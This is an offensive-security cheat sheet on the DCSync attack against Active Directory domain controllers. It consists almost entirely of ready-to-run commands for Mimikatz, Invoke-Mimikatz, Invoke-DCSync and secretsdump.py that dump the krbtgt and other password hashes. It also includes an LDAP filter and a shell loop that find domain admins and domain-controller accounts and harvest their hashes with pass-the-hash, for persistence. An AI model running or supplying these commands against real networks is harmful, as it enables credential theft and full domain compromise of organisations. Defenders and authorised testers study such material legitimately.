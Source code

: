 ```yaml
---
description: DS-Replication-Get-Changes + DS-Replication-Get-Changes-All
---
```


# DCSync

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
* [https://twitter.com/cnotin/status/1419944965443047424?s=28](https://twitter.com/cnotin/status/1419944965443047424?s=28)




## Tools



### Mimikatz

```
mimikatz # lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt
mimikatz # lsadump::dcsync /domain:megacorp.local /user:krbtgt@megacorp.local
```


#### Invoke-Mimikatz

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)

```
PS > Invoke-Mimikatz -Command '"lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt" "exit"'
```



### Invoke-DCSync.ps1

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1)

```
PS > Invoke-DCSync -GetComputers -Domain megacorp.local -DomainController DC1.megacorp.local
```



### secretsdump.py

```
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt'
$ secretsdump.py DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```


#### Targeted DCSync

When performing targeted DCSync (e.g., for persistence purposes) choose the most valuable accounts. One can use the following LDAP query to search for effective domain admins (`adminCount=1`) as well as DC computer accounts (`SERVER_TRUST_ACCOUNT` bit or `userAccountControl=8192` is set):

```
(&
	(|
		(&(objectCategory=person)(objectClass=user))
		(&(objectCategory=computer)(objectClass=computer))
	)
	(!(userAccountControl:1.2.840.113556.1.4.803:=2))
	(|
		(adminCount=1)
		(userAccountControl:1.2.840.113556.1.4.803:=8192)
	)
)

$ windapsearch --dc 192.168.1.11 -d megacorp.local -u 'DC1$' --hash fc525c9683e8fe067095ba2ddc971889 -m custom --filter '(&(|(&(objectCategory=person)(objectClass=user))(&(objectCategory=computer)(objectClass=computer)))(!(userAccountControl:1.2.840.113556.1.4.803:=2))(|(adminCount=1)(userAccountControl:1.2.840.113556.1.4.803:=8192)))' --attrs msDS-PrincipalName | grep msDS | awk '{print $2}' | tee high-value-targets.txt
$ for t in `cat high-value-targets.txt`; do secretsdump.py -pwd-last-set MEGACORP/'DC1$'@192.168.2.22 -hashes :fc525c9683e8fe067095ba2ddc971889 -just-dc-user $t | grep aad3b | tee -a high-value-hashes.txt; done
Or
$ secretsdump.py -pwd-last-set MEGACORP/snovvcrash:'Passw0rd!'@DC1.megacorp.local -dc-ip 192.168.1.11 -ldapfilter '(&(|(&(objectCategory=person)(objectClass=user))(&(objectCategory=computer)(objectClass=computer)))(!(userAccountControl:1.2.840.113556.1.4.803:=2))(|(adminCount=1)(userAccountControl:1.2.840.113556.1.4.803:=8192)))' | grep aad3b | tee high-value-hashes.txt
```
